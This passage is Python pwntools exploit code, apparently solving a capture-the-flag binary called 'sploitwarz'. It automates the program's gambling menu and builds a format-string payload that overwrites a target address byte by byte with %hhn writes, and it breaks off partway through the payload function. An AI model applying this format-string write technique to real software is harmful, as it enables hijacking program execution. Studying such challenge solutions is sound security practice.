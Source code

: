     from pwn import *


    def init(handle):
        p = process("./sploitwarz")
        p.recvuntil("handle?")
        p.sendline(handle)
        return p


    def gamble(p):
        p.recvuntil("do?")
        p.sendline("g")

        p.recvuntil("max ")
        max = p.recvuntil("):", drop=True) # the max amount you can gamble
        p.sendline(max)

        answer = check_fib(p) # the winning number is a non fibonacci number
        p.sendline("{}".format(answer))


    # the correct gambling option is the one not in the fibonacci sequence
    def check_fib(p): # takes in the five options and return the index of the correct option
        options = []
        p.recvuntil(":\n")
        for i in range(5):
            p.recvuntil("{}) ".format(i + 1))
            options.append(int(p.recvuntil("\n", drop=True)))
        
        for i in range(5):
            phi = options[i] * (0.5 + 0.5 * math.sqrt(5.0))
            if ((options[i] == 0) or (abs(round(phi) - phi) < (1.0 / options[i]))):
                continue
            return i + 1


    def change_handle(p, handle):
        p.recvuntil("do?")
        p.sendline("c")
        p.recvuntil("?")
        p.sendline(handle)


    def payload(win, target, offset):
        payload = b""
        payload += p32(target + 0)
        payload += p32(target + 1)
        payload += p32(target + 2)
        payload += p32(target + 3)
        payload += b"%240c"

        for i in range(4):
            byte = win & 0xff
            win >>= 8
            if (byte == 0):
                payload += b"%{}$hhn".format(offset + i)
            else:
                payload += b"%{}c%{}$hhn%{}c".format(byte + 0x100, offset + i, 256 - byte - 0x100)
